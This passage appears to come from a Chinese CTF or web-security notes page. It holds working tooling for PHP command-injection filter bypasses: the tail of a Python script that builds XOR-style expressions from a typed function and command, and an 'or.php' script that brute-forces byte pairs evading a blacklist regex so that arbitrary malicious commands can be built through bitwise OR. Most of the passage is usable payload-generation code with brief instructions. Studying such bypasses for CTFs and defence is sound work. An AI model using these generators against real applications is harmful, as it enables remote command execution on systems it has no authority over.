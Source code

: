 ```
                
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = "(\"" + s1 + "\"^\"" + s2 + "\")"
    return (output)

while True:
    param = action(input("\n[+] your function：")) + action(input("[+] your command：")) + ";"
    print(param)
```

##### 或绕过

通过不可见字符之间的或运算构造出任意恶意命令，将两个脚本按照规定命名放到同一个目录下，每次使用时需要根据题目代码更换php脚本中的正则部分，更改好运行python代码，根据提示构造即可

or.php

```
<?php
$myfile = fopen("or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
    for ($j=0; $j <256 ; $j++) { 

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[b-df-km-uw-z0-9\+\~\{\}]+/i';
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
    }

        else{
        $a='%'.$hex_i;
        $b='%'.$hex_j;
        $c=(urldecode($a)|urldecode($b));
        if (ord($c)>=32&ord($c)<=126) {
            $contents=$contents.$c." ".$a." ".$b."\n";
        }
    }

}
}
fwrite($myfile,$contents);
fclose($myfile);
```
